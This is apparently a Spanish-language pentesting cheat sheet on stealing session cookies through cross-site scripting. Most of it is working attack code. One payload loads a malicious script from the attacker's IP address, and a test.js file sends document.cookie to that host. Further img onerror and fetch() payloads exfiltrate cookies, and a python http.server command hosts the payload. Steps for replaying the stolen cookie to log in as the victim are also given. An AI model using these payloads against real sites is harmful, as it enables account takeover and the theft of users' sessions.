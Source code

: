 Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activado el **httpOnly** el cual se encuentra en **Application** ya que eso impediría poder robarla.
* Esto seria un **Cookie Hijacking**

```javascript
// 1. Esto lo colocaremos en la web en donde se acontece el XSS

<script src="http://192.168.68.111/test.js"></script>    // Colomos la IP de atacante y el nombre del archivo malicioso
```

```javascript
// 2. En nuestra maquina de atacante crearemos este archivo 'js' con el cual robaremos la Cookie de Sesion del usuario, o tambien  podemos hacer que el usuario victima (admin) haga una accion especifica en la web 

❯ nvim test.js                                                  // Creamos el archivo js

	var request = new XMLHttpRequest();                        // Nos permite controlar peticiones 
	request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
	request.send();         
```

```bash
❯ python3 -m http.server 80               # Nos montamos un servidor http 80 para que la victima acceda al archivo malicioso 

# Después de tener la 'Cookie de Session' podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, iniciaremos como el otro usuario.
```

## Cookie Hijacking 
```java 
// Otra forma de mandar un script por medio de la url para robar la cookie de sesion es con la etiqueta img, cuando en la etiqueta 'HTML' no encuentre el recurso (imagen) ejecutara la parte del error. Esto es funcional cuando prohiben las etiquetas 'Javascript'

<img src=x onerror=this.src='http://IP//?c='%2Bdocument.cookie>
	// IP = La direccion IP del atacante 
```

```bash
❯ python3 -m http.server 80               # Nos montamos un servidor http 80 para que la victima acceda al archivo malicioso 
```

## Cookie Hijacking

```java 
// Podemos usar este script tanto para una XSS reflejado como almacenado, utilizando el API 'fetch' de Javascript

<script>fetch('http://IP/server.php?cookie='%2Bdocument.cookie)</script>

	// IP = Direccion IP del atacante.
```
